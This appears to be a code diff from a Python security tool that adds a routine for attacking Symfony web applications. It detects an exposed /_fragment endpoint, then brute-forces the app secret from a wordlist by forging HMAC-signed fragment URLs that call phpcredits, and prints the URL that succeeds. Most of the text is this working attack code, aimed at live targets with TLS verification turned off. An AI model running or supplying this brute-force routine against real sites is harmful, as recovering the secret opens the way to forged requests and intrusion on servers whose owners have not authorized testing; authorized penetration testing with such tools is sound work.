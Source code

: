 ```diff
-        if args.user_agent:
-            headers["User-agent"] = args.user_agent
-
-        try:
-            res = requests.get(args.url, proxies=proxies, headers=headers, verify=False)
-        except (requests.exceptions.ConnectionError, requests.exceptions.ConnectTimeout):
-            print(f"Error connecting to URL: [{args.url}]")
-            return
-
-        r_list = carve_all_modules(requests_response=res)
-        if r_list:
-            for r in r_list:
-                if r["type"] == "IdentifyOnly":
-                    report_identify(r)
-                else:
-                    report_finding(r)
-        else:
-            print("No secrets found :(")
-
-    else:
-        x = check_all_modules(*args.secret)
-        if x:
-            report_finding(x)
-        else:
-            print("No secrets found :(")
+    headers = {}
+    if args.user_agent:
+        headers["User-agent"] = args.user_agent
+
+    fragment_test_url = f"{args.url.rstrip('/')}/_fragment"
+    try:
+        res_fragment = requests.get(f"{fragment_test_url}", proxies=proxies, headers=headers, verify=False)
+    except (requests.exceptions.ConnectionError, requests.exceptions.ConnectTimeout):
+        print(f"Error connecting to URL: [{args.url}]")
+        return
+
+    negative_test_url = f"{args.url.rstrip('/')}/AAAAAAAA"
+    res_random = requests.get(f"{negative_test_url}", proxies=proxies, headers=headers, verify=False)
+
+    if (res_fragment.status_code != 403) or not (res_random.status_code != res_fragment.status_code):
+        print(f"Not a Symfony app, or _fragment functionality not enabled...")
+        return
+
+    print("Target appears to by a Symfony app with _fragment enabled. Brute forcing Symfony secret...")
+
+    x = Symfony_SignedURL()
+
+    phpinfo_test_url = f"{args.url.rstrip('/')}/_fragment?_path=_controller%3Dphpcredits"
+
+    for l in x.load_resources(["symfony_appsecret.txt"]):
+        with suppress(ValueError):
+            secret = l.rstrip()
+            for hash_algorithm in [hashlib.sha256, hashlib.sha1]:
+                hash_value = x.symfonyHMAC(phpinfo_test_url, secret, hash_algorithm)
+                test_url = f"{phpinfo_test_url}&_hash={hash_value.decode()}"
+                test_res = requests.get(f"{test_url}", proxies=proxies, headers=headers, verify=False)
+                if "PHP Authors" in test_res.text:
+                    print(test_url)
```